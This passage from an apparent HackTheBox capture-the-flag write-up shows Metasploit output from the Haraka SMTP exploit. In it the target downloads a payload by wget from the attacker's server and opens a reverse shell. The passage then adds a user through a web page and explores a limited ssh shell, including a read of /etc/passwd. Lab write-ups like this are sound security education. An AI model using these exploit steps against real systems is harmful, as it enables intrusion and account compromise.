

    msf5 exploit(linux/smtp/haraka) > run

    [*] Started reverse TCP handler on 10.10.14.14:443
    [*] Exploiting...
    [*] Using URL: http://0.0.0.0:8008/PxA0ZIx
    [*] Local IP: http://10.1.1.41:8008/PxA0ZIx
    [*] Sending mail to target server...
    [*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /PxA0ZIx
    [*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
    [*] Command shell session 1 opened (10.10.14.14:443 -> 10.10.10.113:47192) at 2019-04-02 14:35:27 -0400
    [+] Triggered bug in target server (plugin timeout)
    [*] Command Stager progress - 100.00% done (111/111 bytes)
    [*] Server stopped.
    id
    uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)



### Path 2.1: Shell As www-data

#### Allow Network and Add User

Having already opened up the firewall above, now I'll click the other
link, User Management:

![](/img/1554224440808.png)

If I enter "0xdf" and hit "adduser", I'm taken to a page with a
password:

![](/img/1554224465587.png)

And hitting "Continue" takes me back to the page where my user now is:

![](/img/1554224490178.png)

#### Find iptctl.c

I can now connect to the box via ftp or ssh with my new account. FTP is
rooted out of the `/home` directory I can see from ssh. Since it's just
a subset, I'll focus on ssh.

The ssh access is strange. I knew from the time it let me create a
username that started with a digit that it wasn't going to be a normal
box account.



    $ id
    uid=2021 gid=1001(associates) groups=1001(associates)
    $ whoami
    whoami: cannot find name for user ID 2021
    $ cat /etc/passwd 
    root:x:0:0:root:/root:/bin/bash
    penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash
    $ ps aux
    -bash: ps: command not found
